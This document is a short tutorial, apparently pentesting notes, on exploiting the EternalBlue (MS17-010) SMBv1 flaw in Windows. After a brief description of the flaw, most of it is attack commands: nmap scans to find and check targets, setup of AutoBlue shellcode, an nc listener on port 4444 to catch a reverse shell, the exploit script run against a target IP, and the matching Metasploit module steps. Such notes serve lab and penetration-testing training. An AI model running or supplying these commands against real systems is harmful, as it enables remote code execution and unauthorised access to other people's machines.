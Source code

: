 - The EternalBlue vulnerability allows attackers to remotely execute arbitrary code and gain access to a Windows system.
- The EternalBlue exploit takes advantage of a vulnerability in the Windows SMBv1 protocol that allows attackers to send specially crafted packets that consequently facilitate the execution of arbitrary commands.

***
***
## Practical
##### Scan the Target
```
nmap -p445 -sV -O IP
```

##### Check the Target for Vulnerability
```
nmap -p445 -sV --script smb-vuln-ms17-010 IP
```

### Manual Exploit using AutoBlue-MS17-010
For this exploit to work we need to setup the ***requirements*** and ***shell code***:
```
clone the github repository
cd shellcode
chmod +x shell_prep.sh
./shell_prep.sh
```

Now that the shellcode is setup, we can start the `nc` listener:
```
nc -nvlp 4444
```

Now, we can began with the actual exploit:
```
chmod +x eternalblue_exploit7.py
./eternalblue_exploit7.py target_IP shellcode/sc_x64.bin
```

### Metasploit
```
search eternalblue
use exploit/windows/smb/ms17_010_eternalblue
set rhosts IP
run
```